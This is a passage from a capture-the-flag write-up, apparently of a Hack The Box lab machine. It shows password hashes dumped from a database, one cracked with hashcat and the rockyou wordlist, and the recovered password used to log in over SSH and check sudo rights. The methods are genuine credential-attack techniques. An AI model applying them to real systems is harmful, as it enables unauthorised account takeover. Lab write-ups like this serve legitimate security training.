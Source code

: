| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | torry    | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2022-07-21 09:27:52 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
{{< /highlight >}}

We discover the password hashes of all the users with an account on the website, including the hash of the "m4lwhere" user in which the user flag is stored.
* Try cracking my password hash!

In order to crack m4lwhere's hash, we first need to identify it which can be done with the use of a <a href="https://hashes.com/en/tools/hash_identifier">Hash Identifier</a>.  
In this case, it appears to be MD5.
Using hashcat we can set the hash mode to 500 (md5) and use the <a href="https://github.com/3ndG4me/KaliLists/blob/master/rockyou.txt.gz">rockyou</a> wordlist from KaliLists

{{< highlight bash >}}
hashcat -m 500 hash /usr/share/wordlists/rockyou.txt 
{{< /highlight >}}

After some waiting, we succesfully cracked the hash!

{{< highlight bash >}}
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
{{< /highlight >}}

# user.txt

At this stage we can abandom our reverse shell as the credentials we found for the m4lwhere user appear to be valid over the ssh service.

{{< highlight bash >}}
ssh m4lwhere@previse.htb
m4lwhere@previse.htb's password: 
ilovecody112235!
{{< /highlight >}}

With this we can simply cat the user.txt file and obtain the flag!

{{< highlight bash >}}
cat user.txt
[redacted]
{{< /highlight >}}

# Privilege Escalation

Before instictively running linpeas, we can first see if the m4lwhere user is in the sudoers group and what commands are permitted.

{{< highlight bash >}}
sudo -l
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
{{< /highlight >}}
